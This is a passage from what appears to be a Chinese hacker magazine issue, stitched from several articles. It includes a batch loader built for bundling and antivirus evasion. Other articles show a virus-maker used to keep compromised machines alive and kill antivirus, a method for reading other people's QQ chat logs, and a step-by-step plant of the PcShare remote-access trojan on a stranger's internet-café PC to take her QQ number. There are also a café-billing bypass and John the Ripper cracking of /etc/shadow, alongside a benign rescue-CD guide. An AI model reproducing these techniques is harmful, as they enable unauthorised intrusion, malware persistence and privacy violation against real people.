echo WScript.Sleep 1000 > bksy.vbs
set /a i = 10
:Timeout
if %i% == 0 goto Next
setlocal
set /a i = %i% - 1
cscript //nologo bksy.vbs
goto Timeout
goto End
:Next
c:\mm.exe
date %date%
del bksy.vbs


```

运行 ExeScript 这款脚本编译工具，它可以将批处理文件、VBS 脚本和 Java 脚本快速转换为可执行文件，同时还可以保护文件中的内容。依次点击“文件”——“新建”——“批处理文件”命令，接着将上面的这段脚本代码复制到程序窗口中，然后点击“方案”菜单中的“编译”命令，这样就可以将脚本文件编译成可执行文件了，如图 5 所示。
## 3、文件捆绑

“永不查杀的捆绑机”是由灰鸽子工作室开发的一款捆绑工具，它通过模拟微软自带的 iexpress 程序来将多个不同类型的文件进行捆绑。运行捆绑机程序，再点击“添加文件”按钮添加需要捆绑的文件。然后用户在“安装首次运行”和“当首次结束再运行”选项中分别设置压缩的免杀程序和脚本程序，再在“窗口运行状态”中对文件的窗口运行情况进行设置，如图 6 所示。完成后点击“捆绑文件”按钮即可生成我们需要的捆绑文件。

## 4、优化压缩

经过这一系列操作以后，文件基本上已经拥有了躲过卡巴斯## 四、小结

到此为止，我们通过程序和手工两种不同的方式，为大家介绍了躲过卡巴斯基的主动防御功能的方法。

虽然我们成功地躲过了主动防御，但是经过这一系列处理的文件已经变得非常大了，要想借助网页木马等方式进行传播，最好还是通过下载者程序来进行过渡才行。看来，任何时候想鱼和熊掌兼得，都是很困难的。

> **编辑点评**：本篇文章实用度相当之高，大家可以了解到与免杀相关的许多基本操作步骤，并知道许多必备工具软件的基础操作。有时候不要把事情想得太复杂，往往使用最简单的方式也可以获得解决问题的方法。

## 六、一的礼物：极具破坏性的病毒——JPS (Virus Maker 3.0) 天之印[火蚁]&Lizaib[A.S.T]

从本文你可以学到：

- 1、简单保护肉鸡
- 2、简单搞掉杀软

前几天，我去AST的论坛看有没有我想要的东西，发现了这个好东东。它是由我的朋友Lizaib汉化的一个病毒制造机，界面如图1、图2，其所拥有的几十个功能相当实用，我们今天就来介绍一下相关的应用。

# 一、恶搞

先看看它的“玩笑”功能，可以使用它让你朋友的MSN或YAHOO IM用不了，让他的邮箱不出声，清除他的WINDOWS
密码，让他的桌面图标都消失等。不过你要记住，这个可不带自我清除病毒功能的！当你对朋友的电脑使用之后，其电脑有可能瘫痪！因此在使用之前，还是先进行系统备份，比如使用GHOST等。切记：此法不可取，千万禁止！不然你就会失去一个好兄弟……

# 二、防止网吧被破解

当我看了这个病毒的功能后，觉得可以把它用在网吧之类的地方，比如干掉注册表、干掉任务管理器、隐藏所有进程等。有了这几个功能，可以有效地防止破解网吧。而且，它具备插入系统进程的功能，可以插入到EXPLORER等系统进程中去。如果要杀掉这些限制，就必须手动杀掉病毒，需要配合网吧管理系统使用，可以更好地保护网吧的利益（小菜们不要打我啊，人家也不容易嘛！）。

## 三、保护小菜的肉鸡
当你辛苦地获得几台肉鸡，却没过几天就飞了，是不是感到非常失望？现在可以放心了，大家可以用这个病毒制造机的相关功能来保住我们的肉鸡，使肉鸡的寿命更长。下面，先看我慢慢道来……（小菜“不打你了，原谅你刚才为网吧做的事。”）

大家可以按照我所勾选的选项来进行配置，如图3所示（如果一个一个写出来，该说我骗稿费啦！）。这里我主要说一下隐藏服务。有时候我们的木马，尤其是远程控制的，是以系统服务启动的。

在手杀时，我们经常会通过查看系统服务来帮助找木马，如果隐藏了，就能更好地保护我们的木马。

在图2中，我们可以看见有个“自定义禁止服务”和“关闭自定义窗口”的选项，大家可以利用这个来搞掉杀毒软件。比如，我们可以在自定义窗口中输入“瑞星杀毒软件下载版”，这样的话，只要一杀毒，就会强制关闭瑞星（这个功能同样可以用在网吧中，搞掉相关的网吧管理及收费软件）；而“自定义禁止服务”可以搞掉杀毒软件的实时监控，这样我们就不怕杀软了，哈哈！

我们还可以用那个“改变IE首页”选项来刷流量，并且它具备蠕虫功能，可以有效地保护它的生存时间，这样就可以更加保护小菜的肉鸡了！

最后补充一下，这个工具还自带了图标功能，方便大家伪装文件。另外，由于其破坏性巨大，我没有在自己电脑上实验，如果大家在使用后出现什么后果，本人及AST可不负责任哦！关于这个工具就介绍到这里吧，工具是死的，思路是活的，我的ID是天之印，下次再见！

> > **编辑点评：** 抓鸡不是难事，难就难在肉鸡的长寿上！至于搞掉杀软，利用的方法并不是很隐蔽，除非对方长时间地全屏玩游戏，不然屏幕右下角的监控图标不见了，肯定是个怪事！其实只要合理利用许多的软件，是不难实现的。发现新技巧，你就写下来，发到《黑手》和大家分享哦！

# Linews

五月的大家，心情都好么？五一长假，有没有出行计划呢？！ ^_^

不知不觉中，小编我也已经做毕业设计两个月了，尽管离毕业也还有两个月的时间，但现在已经能感觉到那种依依不舍的心情了。不过现在还不足感慨的时候，抓紧时间享受最后这段时光才是正题！！呵呵……

还是先不谈我自己了，来看看本期的文章吧。上一期给大家介绍了破解 Windows 密码的 LiveCD，这期紧接上一篇破解 Linux 密码，尽管内容很简单，但是，不一样的，我们已经开始了 Linux Hack 的旅程了。另外，继续给大家介绍一份 LiveCD —— TRK，希望能为大家的系统恢复提供一些帮助。

OK，读者们继续看文章吧。

### 1、XBOX 360 被破解, 成功运行 Ubuntu

去年，一位匿名黑客发现了 XBOX 360 中存在的可绕过保护、甚至安装系统的漏洞。最近，有人找到了利用该漏洞的方法，成功使用 Ubuntu Live CD 启动运行了 Linux 系统，并将方法和过程公布在了网上。

据称，要实现 XBOX 360 运行 Ubuntu Linux 系统，需要 XBOX 360 系统核心仍存在漏洞的 4532 或 4548 版本，而不是更新过的最新版本，并且需要一张《金刚》游戏作为引导。目前，该破解的过程还十分复杂，甚至需要自制的串口连接线将 XBOX360 连接 PC 进行操作。

青蛙点评：果然是“李宁——一切皆有可能”。各种系统中的限制、保护就像一座座高山，等待着追求自由的人去征服。Hacker，游走的人，应该就是在征途之中吧。

# 2、在 Linux 下完美刻录——NeroLinux V3 五月发布

在今年的 CeBIT 上，Nero 公司展示了其开发的新一代版本的 NeroLinux V3，正式版本将在本月上市。从官方获取的数据表明，NeroLinux V3 支持 Windows Nero 中的全部功能——能够刻录 HD DVD 和蓝光 DVD，还支持 Unicode 并且提供了对 64 位的支持，此外，NeroLinux 也对大多数发行版提供了支持。

之前的 NeroLinux V2 长期没有新的版本来延续，因此在 Linux 中更多看到的是 K3b。

青蛙点评：嗯，看来 Linux 的发展，得到的是全世界软件行业的认可。NeroLinux 之所以长期停留在 V2 版本，相信与 Nero 不愿意在 Linux 发行中投资有关，毕竟用户不会很多，要考虑收到的回报与技术、资金和投入问题。另外，在 Linux 中，似乎人们更喜欢开源的软件，这也是商业软件的 Linux 版本很郁闷的地方。

# 3、Intel、Red Hat 合作推出零售商计划

在“2007年英特尔解决方案峰会”上，红帽和英特尔共同宣布，两家公司将联合推出一项零售商计划——“全球渠道加速计划(Global Channel Acceleration Program)”，让渠道合作伙伴能够更迅速地在市场上推出基于 Linux 的解决方案。

根据这项计划，红帽将预先对配置和基本组件进行认证，使零售商能够销售集红帽的软件、英特尔的硬件于一体的解决方案，目的是为零售商降低认证成本和缩短认证时间。目前该计划只针对服务器领域，台式机不在其计划之内。

青蛙点评：向 Linux 抛出橄榄枝的 CPU 厂商。这样的整体解决方案——从 CPU 向 OS 进行一体化，是一次历史性的突破，会让 Linux 在企业领域发展更迅猛，同时也是进攻台式机桌面市场的前哨站，另外，这个计划也会为 Red Hat 的“订用更新支付模型”创造更多的收入。

# 4、Google 的 Dell 预装 Linux 广告

在 Dell 低调地宣布了其即将发布预装 Linux 发行版的笔记本与台式机后，最近，Dell 又开始了在 Google 上做它的预装 Linux 桌面产品的广告了。如下图：
青蛙点评：很奇怪，为什么 Dell 如此低调地对自己的产品进行推介，难道预装 Linux 违反行业规则？通过广告进入“Special Deals”的页面后，依然可以看到“Dell recommends Windows Vista? Home Premium”的黑体字样，看来 Linux 在笔记本和桌面中想推广开，阻力还是很大的。

## Linux 密码的噩梦 —— John the Ripper

青蛙

- 从本文中你可以学到：
- 1、Linux 中的密码破解软件 JtR 的编译方法
- 2、JtR 的使用方法

密码是大家经常用到的东西，比如登录系统，登录邮箱，登录论坛等等……各人的密码也各有千秋，有的人用生日，有的人用名字，等等。不过，任何口令都有被破解的可能，因为有种方法叫做“穷举法”。大家不要害怕，这里只是提一下这个代表着坚强毅力、无限时间和运算成本以及不屈不挠精神的名字。

其实这种密码更准确的，应该叫做“口令”，是用作身份认证的，不过在此仍使用“密码”这个名字。

比较强的口令是大小写字母、数字加上特殊字符还有空白。

其实对于密码的攻击大家都很熟悉，比如盗 QQ 的木马，一般是对密码的截获，相对于破解来说，这个很方便。除了截获，常用的密码攻击手段还有简单的猜解（比如利用社会工程学），字典攻击和刚刚提到的穷举法。当然，有些程序记录密码的时候用明文，这种情况就不考虑了，拿来用就 OK 了。扯了这么多，今天开讲理论基础知识？？不！今天要讲的是 Linux 中一个重要的密码破解工具 John the Ripper (以下简称 John) —— 绝对的 Linux 密码的噩梦。

这个程序的名字比较特别，具体的来历……可能是来自福尔摩斯中的“开膛手杰克” —— Jack the Ripper，缩写也是“JtR”。

先来介绍一下我们的开膛手（听着太血腥了……），John 是一个快速的多平台的密码破解程序，是对已知密文的密码文件进行破解、获取明文的工具，主要用于破解 Linux 中常见的 Shadow 密码，支持的平台包括 Linux、FreeBSD、Solaris、DOS、Windows 等。除此之外，John 还能破解很多其他类型的密码，比如 WindowsNT 系列中的 LM 哈希密码（就像 LC5）。OK，介绍这么多，下面就开始我们的密码破解之旅吧。

据说很久很久以前（我没赶上），Linux 的密码都是用明文存放在 “/etc/password” 这个文件中的，而且是所有人都拥有读取权限的。后来发现明文的安全性太差，于是就出现了使用 Shadow 这个程序，对 password 进行加密，并把密码存放在 “/etc/shadow” 这个文件中，而 password 中不再保存密码。尽管这个 shadow 文件也是对所有人可读的，不过由于密码是加密过的，所以安全性上提高了很多。目前大多数的 Linux 中都携带有 shadow 程序套件。

首先，当然是要准备 John。John 的官方地址是：http://www.openwall.com/john/，For Linux 版和 For Windows 版都会在光盘中找到的。在 Windows 版中的 John 是编译成执行文件的，没有安装的必要，而 Linux 版中的 John 还都是源代码呢，所以要简单地处理一下。

在终端中进入 john 的文件夹，`cd src` 进入源码文件夹，`make`, 然后是 `make clean SYSTEM`, 最后是 `make clean generic`。具体什么意思……我也不清楚，不过我知道这三个 make 执行完之后，编译好的 john 就存放在了 John 文件夹中的 run 下了。好了，John 准备好了，开始干活吧。

John 准备好了，开始干活吧。

其实 John 用着很容易，`./john [参数] 密码文件` 是它的通用格式。它有三种工作模式参数，`--single`, `--wordlist`, `--incremental`，它们分别代表了之前说到的简单猜解，字典猜解，还有穷举。下面就对 John 的工作模式给大家讲解一下。

- 1) **--single**。简单的猜解，比如用户名是 hao，猜解密码的时候可能就会猜 hao123 等。简单的密码比如常见的单词，都可以用 `--single` 模式来破解。我的密码是 friday，几乎没来得及数秒，就已经出来结果了，So Fast。

- 2) **--wordlist**。顾名思义，这是字典攻击的模式。使用 `--wordlist=字典名` 来向 John 提供一个可以读取的密码字典，在破解时 John 就会使用字典中的词逐个进行尝试，直到出现匹配的密码。字典攻击几乎是密码攻击的最后一步了，很少有人会去尝试穷举法，所以一个好的字典文件是十分重要的。John 中自带了一个 25KB 的密码字典（超过 3000 个密码），不过这个依然是不能满足要求的。这里送给大家一个字典文件，超过了 40MB，具体多少口令，我还真的没查过。

对于 `--wordlist` 这个参数，还有一个与之配套的参数 “--rules”，即对于字典中的密码使用一定的规则进行变换，并进行匹配。举个例子，比如密码是 friday，使用 `--rules` 后就会继续测试如 Friday, FRIDAY 等，还有就是如 “9” 与 “(” 的变换，都是 `--rules` 中会用到的变换规则。

- 3) **--incremental**。这个……没什么可说的了，如果真的这个密码很重要的话，那就用这个吧。不过穷举法可能很快就能破解出来东西，也可能几天都没有反应。

呃，用穷举法的时候，计算时间一般都是用年作单位来算的。

最后讲一下查看密码的方法。比如已经破解的密码文件是 mypasswd，想要查看其中破解的密码，就输入 `./john --show mypasswd` 就可以了。John 已经破解的密码会存放在 john.pot 文件，不过里面的东西几乎是不可读的，所以想要查看密码的时候还是使用 `--show` 参数比较方便。

由于 shadow 文件对于用户都是可读的，所以只要能登入系统，就有机会获取 shadow 然后破解，这样对 Linux 入侵就基本完成了——Linux 的 root 密码被破解的话，整台机子基本上就在掌握之中了。

OK，讲到这里，John 的使用方法就讲解完毕了，希望 John 对于大家的 Linux 安防会有帮助。

> 【文中所涉及的文件已经收录在光盘中。John for Windows 1.7.0.1, John for Linux 1.7.0.2 以及密码字典 all.lst 的 RAR 压缩文件】

# 编辑点评：

文章简单地介绍了 John the Ripper 的使用方法，但 John 并不只是这么简单的，还有很多深奥的配置，比如限制最大和最小密码长度、对 John 外部扩展等，更高阶的内容，还是让有兴趣的读者自己去 John 的文档中查看吧。尽管对于 root 密码进行破解是常用的 Linux 攻击方法，但想单独靠 John 来完成这项任务，并不是件容易事。

# 拿什么拯救你，我的系统

李亦聪

- 从本文中你可以学到：
- 1、使用 TRK LiveCD 对 Windows 系统进行救援
- 2、TRK LiveCD 的脚本命令及参数

Hello，我又出来了。上次给大家介绍了 Ophcrack——破解 Windows 密码的 LiveCD，这次换一种，来自 Trinity 的救援 LiveCD——Trinity Rescue Kit (TRK)。顾名思义，这份 LiveCD 是专门用来对崩溃的系统或者深度中毒的机器进行急救的。闲言少叙，开始吧。

和以前一样，先下载 TRK 的光盘镜像，下载地址是：http://rm.mirror.garr.it/mirrors/trk/trinity-rescue-kit_3.2-build-279.iso (不过随着版本升级，可能会稍有不同。如果这里找不到，大家可以去 Distrowatch.com 查看，或者来《黑手》论坛询问。) 下载完镜像，刻成光盘备用。

把刻好的光盘放进光驱，重启计算机，修改成从光盘启动。从光盘启动后，就能看到启动画面如图1。默认的高亮选项就是 TRK 启动的选择，直接按回车启动 TRK。启动的 TRK 会直接以 root 身份登录，免去了用户再输入密码登录的麻烦(图2)，“#”提示符后就可以输入命令来使用 TRK 了。
图1 TRK 启动界面
图2 开始使用 TRK
图3 杀毒软件升级
图4 ClamAV 更新中
图5 ClamAV 杀毒中

看到上面这个界面是不是有些惊讶呢？上次介绍的 Ophcrack 是图形界面的，不过这次的 TRK 是命令行式的，让我们看看都有什么命令可以用吧。TRK 提供了很多功能，同时为了方便实用，还制作了一些脚本放在程序中，方便大家使用。下面就来介绍一下 TRK 的功能和使用方法。

# 1、杀毒

TRK 中杀毒的选择性最强。它有四个杀毒软件可选——ClamAV (常用 Linux 的同志会熟悉，这是 Linux 下著名的杀毒软件，免费的哦。这个是存在于 TRK 中的，其他的都要下载)，F-prot (冰岛，世界排名也是很靠前的)，AVG (就是以前的 Ewido，杀木马最强者)，还有就是 BitDefender (常关注杀毒的同志已经晓得这个了，这款杀毒软件是 06 年的世界第一)。不过不要觉得记住这四个杀毒软件的命令太麻烦了，因为 TRK 对这四个杀毒软件使用了同样的命令：

```bash
virusscan -a {clam,avg,fprot,bde} -c -g -n -d {DESTINATION}


```

就 OK 了。下面对一些参数解释一下。

- -a：指定杀毒软件，“clam、avg、fprot、bde”分别代表了 ClamAV、AVG、F-prot、BitDefender。
- -g：仅下载杀毒软件并升级病毒库，不进行扫描。
- -n：只杀毒，不升级。
- -d：指明扫描地址，没有这个选项的话，会对所有的文件系统进行杀毒扫描。

例如：命令“virusscan -a bde -g”的意思就是下载 BitDefender，并且升级病毒数据库，但不进行杀毒。(图3)

命令“virusscan -a avg -d /mnt0,/hda1/WINDOWS,/hda1/Program\ Files”的意思就是下载并更新 AVG，扫描“/mnt0”、“/hda1/WINDOWS”、“/hda1/Program\ Files”这三个地方。图4，图5分别是 ClamAV 更新和杀毒的截图。

# 2、Windows 密码及注册表攻防

## (1) winpass

TRK 中加入了重置 Windows 系统密码 (NT/2000/XP 系列) 的脚本——winpass。默认情况下，这个脚本会重置内建的 Administrator 账户的密码。使用“-l”参数，可以查看 SAM 中的用户名列表(图6)。不过从以前的经验来看，重置 2000 及 NT 的密码一般是有效的，对于 XP 可能会出现问题。
图6 查找 Windows 密码
图7 查看注册表

## (2) regedit

多么熟悉的命令啊……没错，这个命令就是用来查看本地 Windows 系统的注册表的，它会列出所有的信息——包括 sam、security、system 和 software，如图7。

遗憾的是……很难看出来它的列表是哪个用户的，当然，对于单用户的 XP 的话，这个问题并不重要。不过……想在脚本状态说明这些注册表，还真需要下些功夫……在 TRK 中提供了一个简单的注册表编辑器，下面是使用说明，如图8，大家可以参考一下。

# 3、挂载所有文件系统：Mountallfs

从官方获取的数据来看，Mountallfs 是最受欢迎的 TRK 附加程序。一条 `mountallfs -g` 命令挂载全部的文件系统，要比一个一个的“mount ……”方便多了。

Mountallfs 除了挂载全部的文件系统的功能，还有一些参数可以让我们用着更方便：“-f”参数挂载 NTFS 格式的硬盘时使用 ntfs-3g 驱动，也就是可以读写。默认是只读。

# 4、升级 TRK

这个功能是我很喜欢的功能（可能是经常使用这类急救盘的原因）。updatetrk——这个命令用来升级 TRK 的内核，重新构建 TRK 的 ISO 文件或者把 TRK 放在 U 盘里。它做得很简单，首先询问用户是否构建 Captive NTFS 支持程序（mountallfs -c 使用的 NTFS 驱动，由于 Microsoft 的许可问题，它需要的文件不存在于官方版本的 TRK 中），如果构建的话，它会从硬盘上（前提是你已经“mountallfs -g”过了）搜索需要的 ntfs.sys 和 ntoskrnl.exe 文件，如果没有，它会从 Microsoft 的官方站点下载。

然后，它会升级所有的杀毒软件，脚本会自动下载 F-Prot、AVG 以及 BitDefender 的杀毒程序，并更新其病毒库。最后，它会在指定的地方生成 TRK 的 ISO 镜像，或者装入 U 盘中。

命令是：updatetrk -b {临时文件夹地址} -i {目标 ISO 地址}（或）-u {目标 USB 设备地址}

“-b”参数指定生成中间文件的地址，最少需要 250Mb 的空间。

# 5、NTFS 系统中数据恢复：Ntfsundeleteall

看名字也能看出来，这个程序是用来恢复在 NTFS 文件系统中被删除数据的。用法很简单：ntfsundeleteall 设备名 存放文件地址 [最小百分比] --force，比如“ntfsundeleteall /dev/hda1 /mnt/sda1/recovery 100”。这里说明几点：首先不能挂载 hda1 设备；第二，恢复的数据会很多，但是其中不一定有你期待的；第三，关于 --force 参数，这是强行进行恢复，适用范围是在系统已经认不出你要恢复的设备是 NTFS 格式的时候，不过这样的时候，估计恢复被删除数据的可能性也很小了。

OK，介绍到这里，TRK 基本的功能就介绍完了。其他功能如克隆 XP 以及充当文件服务器等，我个人觉得对个人用户来说用处不是很大，如果大家有兴趣的话，可以自己去研究研究，这里就不再多说了。TRK 是一份很不错的救援 CD，相信可以给大家的计算机维护、数据恢复以及应急处理带来很多方便。

如果有什么问题，欢迎来《黑手》论坛询问。关注“窗外”，关注《黑手》，关注 LinuxBlog。

# 2006 年九月特辑的文章漏洞与一点延伸

一直很喜欢 NOHACK 的，每期也都会买来看，对里面的知识深信不疑。可在实验时，却找到 2006 年九月特辑上一个较严重的错误。

那天，一个朋友来到我的电脑上了一下 QQ，没删 QQ 文件（如图 1），我就想起了那篇马成写的文章，好像叫《看好你的 QQ 登录记录》。

通过文章了解到，用户 QQ 号码目录里有个叫“User.db”的文件，我就按文章所写那样，把这个文件复制到了我的 QQ 里（如图 2）。确实如此，好友被复制过来了（如图 3）。

可一旦下线再上的时候，即使有记录，腾讯也会再下载一次好友文件（如图 4），那里面的好友也就……但有时候也还在。我实验了几次，有些号可以，有些号却不行，看来这个问题还有待研究……

重要的是编辑的那句：“殊不知此乃社会工程学的开始”。据我和几个朋友的发现，这样加进来的好友是不会上线的！（在这里要感谢 NOHACK 和邪八论坛的朋友的帮忙）我真是“看了又看，汗了又汗”……

解决这个问题，只能全拖到“陌生人”里后再用工具批量加，那也就没什么意义了嘛！但留下这个文件的两个好处是：一来可以在自己的号丢了找不回来以后，用这个“转陌生人加好友”的方法来迅速恢复联系；二来就是查看他人的聊天记录！嘻嘻……

关于第一点，腾讯早就有这种什么“复制好友”功能了，有点画蛇添足，我现在重点讲讲第二点。很多人觉得，“看就看呗，我又不是什么名人，爱看看呗！”。这句话，才真是“殊不知此乃社会工程学的开始”！

你想想，假设你现在黑了仇人 A 的一台电脑，看了他与 B 的聊天记录以后，再用一些他们聊过的内容来“社会工程学”，以 A 的换号名义加了 B，那……（在此告诉大家别干坏事哦，这只是一种设想！）

好了，就不废话了，现在来讲讲怎么看聊天记录（众人：早就该讲了！板砖准备好了吗？！）。在这里我们用的是“QQ 聊天记录读取器”（如图 5），先将它放到与 QQ.exe 同一个目录下（如图 6），然后断开网络，双击运行这个读取器。点启动 QQ，然后不用输密码就进去了，接着随便在一个好友头像上按鼠标右键，选择“聊天记录”-“查看聊天记录”就 OK 了。

有效就要有防，虽然 QQ 自带了一个，但网上已经有破解办法了。我在这里给大家推荐一个软件，叫 QQ 聊天保密箱。安装完毕后运行该软件，里面还有许多 QQ 常用语，但现在我们只用它的信息保密功能。

首先把聊天记录复制到一个 TXT 文本中，然后依次选择该软件的“加密操作”-“打开源文件”，将这个 TXT 文本导入。接着选择“加密操作”-“另存为加密文件”，输入完路径后，再输入密码。记得最好不要和 QQ 密码重复哦！

那加密后怎么查看聊天记录呢？其实只需要运行该软件，依次选择“解密文件”-“打开已解密文件”命令，选择加密的文件，输入正确密码就 OK 了。

经过多次测试，发现有些 QQ 版本用不了读取器！如果实在有这种需要，就去下载一个合适的版本吧，比如 QQ2003。本文主要想讲一下：1、本人不是不要鸡蛋里挑骨头，只是想要小编在以后的编辑点评时要注意一下；2、做黑客，不管是渗透、入侵或是社会工程学，玩的就是思维，只要你留个心眼，到处都是漏洞！（在这里要谢谢妈妈、同学对我的支持与鼓励！）

> （文章中所涉及的 QQ 聊天记录读取器已收录到本期光盘）

# 以美女的名义入侵网吧

木头花

从本文你可以学到：

- 1、Recton、PcShare 的用法
- 2、如何在本地搭建简单的 HTTP 服务器

最近舍友在学校附近的一网吧上网，看到一美女，便回来要我帮他弄人家的 QQ 号码，本来不想去的，可是耐不住朋友的软磨硬泡（其实也没怎么泡，他也就是说了 MM 是如何漂亮），便答应下来，满脸兴奋地去弄超级无敌极品 MM 的 QQ 号码。

## 一、无言的失败

来到网吧，美女还在，装作不经的样子侦察了一下 MM 的机号。这里补充一点，我们这机号和 IP 地址是对应的（其他地方一般也都这样）。插上 U 盘，找到“QQ 第六感”，一点点击“下一步”，安装完成后填入注册码。本以为到此就大功告成。可是“QQ 第六感”却找不到 MM 的机器，我们这里几百台机器，可是“QQ 第六感”只显示了六个，如图 1。

本人菜鸟，不知是何原因，望高手不吝赐教。到这里第一次尝试宣布失败了。不过还好，我还有一招，嘿嘿。

## 二、再一次的失败

失败了并不可怕，关键在于继续尝试。一阵有点阴险的笑之后，我拿出 PcShare，点击“生成客户端”，这里 IP 地址就不用修改了，只把上线端口改成 800，改完之后最好关闭 PcShare，再重新打开一次。需要注意的是这里的 IP 要记下来，待会会用到。之后点“生成”就完成了服务端的配置及生成，如图 2。

接下来点击“参数设置”，这里只要把“自动上线连接端口”改成 800 即可，如图 3。

现在打开精锐网吧辅助工具 5.7，如图 4。把界面上显示的用户名和密码记下来，我的用户名是“Administrator”，密码为空。（我们这里每台机器上的用户名和密码都是一样的，所以知道我的就等于知道 MM 机器的用户名和密码了）。接下来打开 IPC 种植者，在 IP 的起始和结束都填上 MM 的 IP 地址，再选中“同步植入”，如图 5。

上面 MM 的 IP 地址是这样得到的：把我们在 PcShare 中记录的 IP 地址，最后一个点后面的数字换成 MM 的机号。在 IPC 种植机中点“浏览”，之后选择我们生成的 PcShare 客户端。我这里是“1.exe”。点一下“开始”就开始种植木马了。完了，又不成功，查看了一下服务发现 IPC 共享关了，如图 6。

想了一下，MM 的 QQ 号拿不到，找一下原因吧。有点垂头丧气地拿出 SuperScan，填上自己的 IP，扫一下自己都开了哪些端口吧。结果，如图 7 所示。

不过倒是开了 135 端口。开了 135，可以试试 WMI 啊。沮丧的心一下子恢复了刚才的兴奋，MM 的号码有希望了。

## 三、如愿以偿

整理一下思路吧，要使用 WMI，可以用 Recton，而用 Recton 需要有个能用 HTTP 下载的 PcShare 客户端（还用 PcShare），我们可以在自己的机器上用 HTTP 傻瓜服务器建一个 Web 服务器（当然你要是有网络上的空间也可以，我没有，所以我就自己建一个，不过自己建的只有本网吧内的机器能访问到呗）。下面开始行动了，把 PcShare 服务端复制到和 Http 傻瓜服务器在同一目录下（要注意，我生成的 PcShare 服务端是使用 800 端口上线的，所以不用再生成了。如果你刚才使用的是 80 端口上线，需重新生成一个不使用 80 端口的，因为这里的 80 已经让 Http 傻瓜服务器给占了）。现在打开 Recton，切换到“种植者”选项卡，在远程主机中填上 MM 的 IP 地址，在“用户名”和“密码”中填我们在精锐网吧辅助工具中得到的用户名和密码，之后选中 Http 下载，在“文件目录”中填 http://我的 ip 地址+/木马的名字。具体我应该填的是：http://192.168.18.34/1.exe，在“启动参数”中填木马的名字，我应该填“1.exe”，都填好了，如图 8。

点击“开始下载”，就搞定了。没多长时间 PcShare 就有动静了，MM 的机器已经在我们的控制之中了，如图 9。

看一下 MM 的屏幕，嘻嘻，很容易就看到了 MM 的号码了。除了看屏幕外，还可以用 PcShare 的文件管理到 QQ 的安装目录里找 MM 的号码，如图 10。

Windows 2000 的 IPC$ 或者 WMI、Recton 等工具就显示了其强大的功能。而对于 WinXP，像文中说的那样，用精锐网吧辅助工具获得本地用户名和密码往往都是错误的，好像所有的情况下它都会告诉用户密码为空，这时候我们就可以根据端口的情况选择缓冲区溢出漏洞攻击。

## 四、结束

弄了一下午才搞定，多亏 MM 有耐性（还是怪自己技术低吧），现在还没走。以后遇到困难记得一定要多加尝试哦！

[文章中涉及到的工具 QQ 第六感、PcShare、精锐网吧辅助工具 v5.7、Recton、HTTP 傻瓜服务器光盘中有收录]

> 编辑点评：MM 的吸引力就是大啊，难怪说英雄难过美人关，呵呵！“有时候网吧中的入侵就如文中所讲的这般简单：获得了本地系统的用户名和密码就等于获得了网吧中其它客户机的控制权，结合

网吧中的入侵很多时候依赖所有客户机软件环境设置的一致性，这也使入侵变得十分随意。不过对于网管来说把客户机进行不同的设置也许有些困难吧，这就要求系统本身具有很高的安全性：复杂 BT 的密码等。在文章的开始部分作者自己写的“从本文你可以学到”里有一句“思想方面：只要在尝试就有成功的可能”，这个编者是十分赞同的，在网络安全领域出现错误和失败是很正常的，唯有不断尝试才是成功之道，而在这个过程中你可以学到更多。

# 轻松的网吧免费之旅

wyk

- 从本文中你可以学到：
- 一些快捷键的使用

以前不常进网吧玩，今天到网吧找同学，不想却破掉了它——我免费玩了一会。下面我就说说这次经历。

重启后正处于登陆页面的机器，在将要出现登陆页面的前几秒，用 CTRL+SHIFT+DEL 打开任务管理器，用 ALT+E 灭了 explorer.exe（卡好时间，现在网吧管理软件并没有启动），本想用“新任务”新建一个 CMD 进去，却没想到命令竟然是灰色不可用的。由于鼠标被撒在边缝里，只能上下移动，只好用键盘了。想了半天，用 ALT+H 打开帮助菜单，选“关于任务管理器”，如图 1。

这时出现了喜人的一幕，如图 2。

大家也都看到了吧，有个链接：“最终用户许可协议”，点击它们可以获得一个记事本哦！我没有能够用 TAB 键切换到这个链接，便 ALT+空格（相当于右击标题栏），把它移动到屏幕的边上，使鼠标能够点到它。OK，现在可爱的记事本出现了，欢呼吧！CTRL+O 选打开，TAB 到“文件类型”，选“所有文件”，就可以浏览本地硬盘了，如图 3。

但打开时需右击文件选择“打开”才可以，如图 4。

只要 TAB 用得够好，就什么都可以了，只是我没有继续载入 Explorer.exe 进程，怕引起可恶的登陆页面，那就完了。现在就能玩了，到了桌面，有 IE，也有 QQ。我就收了收邮件，挂了会儿 QQ。只是没有任务栏，鼠标也不能用，不是很方便哈。最后说明一下，现在网管那里显示你这台机子是空闲的。

到这儿就结束了，只是不明白为什么 EX-PLORER 死了，后面就都不启动了。我对网吧管理软件的原理了解得不是很清楚，但是这种方法绝对比关掉协议来得好，那种方法是会被网管发现的。我的邮箱 gggqignyfjhh@yahoo.com.cn，有什么问题与我联系。

> 编辑点评：这篇文章有意思的地方在于快捷键的使用，像只用一个 Tab 键就可以破解 PubwinEP 的例子还有很多。有些网吧管理软件只限制了鼠标的活动范围，而没有屏蔽快捷键，这样的防范是不完全的，要知道键盘可是比鼠标先出来的输入设备哦！对于破解网吧来说比较有用的快捷键除了文章中涉及到的 Tab 键（切换）、Alt（通常用来激活菜单）、Ctrl 加其它组合键外，Win 键也是很常用的，比如 Win+R 是运行，Win+F 是搜索，Win+E 是资源管理器。灵活地使用这些快捷键，你会发现有时候破解网吧 so easy。

# 对网吧的全面检测

KardPan

> 从本文你可以学到：

1、了解一些网络协议
2、了解一般的网络入侵方法

前段时间新网吧开张，让我们员工测试网络有什么问题。因为网吧的电脑是请电脑公司的人来装的，要不180台电脑我们要来装会出人命的~局域网也是电脑公司的人构架的，我们要看看有什么漏洞没有。（听说水晶头是请成都的专人来夹的，2元一个。这么好赚，早知道我该接下这活，1.5元一个我也做。）

